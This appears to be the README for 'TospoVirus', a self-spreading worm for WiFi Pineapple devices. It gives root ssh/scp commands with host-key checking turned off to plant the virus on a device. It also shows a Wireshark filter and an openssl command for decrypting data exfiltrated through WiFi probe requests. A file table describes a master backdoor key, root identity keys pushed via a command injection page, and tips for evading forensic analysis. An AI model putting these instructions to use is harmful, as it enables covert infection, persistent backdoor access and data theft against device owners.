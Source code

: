 Building TospoVirus for Distribution:
------
./build.sh

Distribute to a working pineapple with version 2.3:
------
ssh -oStrictHostKeyChecking=no -oUserKnownHostsFile=/dev/null root@172.16.42.1 "mkdir /tospo"  
scp -oStrictHostKeyChecking=no -oUserKnownHostsFile=/dev/null dist/tv* root@172.16.42.1:/tospo/  
_Note: You'll need to have a configured device OR use the metasploit-module to enable ssh_

Decrypting ex-filtrated data:
------
wireshark filter is:  
(wlan.fc.type_subtype == 0x04) && (wlan_mgt.tag.length == 32)  
printf $(echo "[data copied from wireshark]" | sed -re 's/(..)/\\x\1/g') | openssl rsautl -decrypt -inkey tvd.pem


Files & Purpose:
------
| File         | Purpose  |
| ------------ | -------- |
| tv           |The virus itself.|
| tvbd         |The "master" backdoor key, do not distribute the private key.|
| tvi          |The infection list - carries information about the heritage of this device.|
| tvd          |The disclosure key, used for exfiltrating data via probe requests.|
| tospo_rsa    |The identity private key, specific to each infected device used as the transfer key.|
| tospo_rsa.pub|The identity public key, transferred via the command injection page to allow the private identity to perform actions as root on the remote device.|
| w            |Pushed wireless configuration options, used to restore previous connections.|
| n            |Pushed network configuration options, used to restore previous connections.|
_Note: Files starting with 'tv' are all transferred when infecting a new device. Do not add private keys and the like using names beginning with 'tv' or else your private key will be exposed to forensic analysis._